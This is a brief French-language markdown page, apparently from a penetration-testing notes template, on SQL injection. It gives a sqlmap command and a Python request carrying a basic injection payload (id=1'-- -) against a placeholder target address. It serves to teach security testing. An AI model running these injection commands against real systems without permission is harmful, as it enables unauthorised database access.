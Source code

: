 ```yaml
---
title: SQL Injection
tags: [Web, SQLi]
os: [Linux]
difficulty: Beginner
---
```


Les injections SQL permettent de manipuler la base de données.

!!! warning
    Toujours tester les paramètres GET et POST.

=== "bash"
    ```bash
    sqlmap -u "http://{{ target_ip }}/index.php?id=1" --batch
    ```

=== "python"
    ```python
    import requests
    requests.get(f"http://{{ target_ip }}/index.php?id=1'-- -")
    ```

!!! ttp "TTP"
    Documente chaque payload utilisé.

